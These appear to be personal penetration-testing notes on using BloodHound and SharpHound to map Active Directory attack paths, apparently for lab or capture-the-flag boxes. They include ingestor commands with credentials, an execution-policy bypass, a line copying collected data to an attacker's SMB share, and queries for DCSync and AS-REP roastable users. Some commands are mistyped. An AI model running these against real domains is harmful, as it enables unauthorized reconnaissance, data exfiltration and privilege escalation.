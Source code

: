 # Installation 

```bash
sudo apt install bloodhound

neo4j console
# open link
http://localhost:7474
#default creds
neoj4:neoj4
# set new password
# run bloodhound

```

# Prebuilt queries
Mark owned users as owned inside bloodhound 
![[Pasted image 20221226133410.png]]

```
shortest paths to domain admins from owned principals 
```

# Injestor 


## remote bloodhound
```
bloodhound-python --dns-tcp -ns 10.10.10.10 -d support.htb -u 'ldap' -p 'password' -c all

-ns # ip
-d # domain
-u # user
-p # password
```

## SharpHound 

[SharpCollection_repo](https://github.com/Flangvik/SharpCollection)

**Use latest NetFramework_ANY**

```powershell
# Upload sharphound to the target

.\SharpHound.exe -c all 
# start smbserver and send the file 
copy FILE.zip \\10.10.10.10\share\ # send .zip file to attackers ip 
```

### Invoke-bloodhound
```bash
# dfault path
/usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1
```
```powershell
powersehll -eq bypass
. .\SharpHoundps1
Invoke-bloodhound -Collectionmethod All -Domain marvel.local -ZipFileName file.zip

```


# Examples

## Search Users DCSync Rights  


![[Pasted image 20221230121414.png]]


## Search Users AS-REP Roastable Users (DontReqPreAuth)  

![[Pasted image 20221230121434.png]]


## Search Unconstrained Delegation

![[Pasted image 20221230121453.png]]

## Search Shortest Paths to Domain Admins 
![[Pasted image 20221230121508.png]]


---
Tags: #AD #bloodhound #sharphound
Resources: 
[SharpCollection_repo](https://github.com/Flangvik/SharpCollection)
[BloodHound](https://github.com/BloodHoundAD/BloodHound)
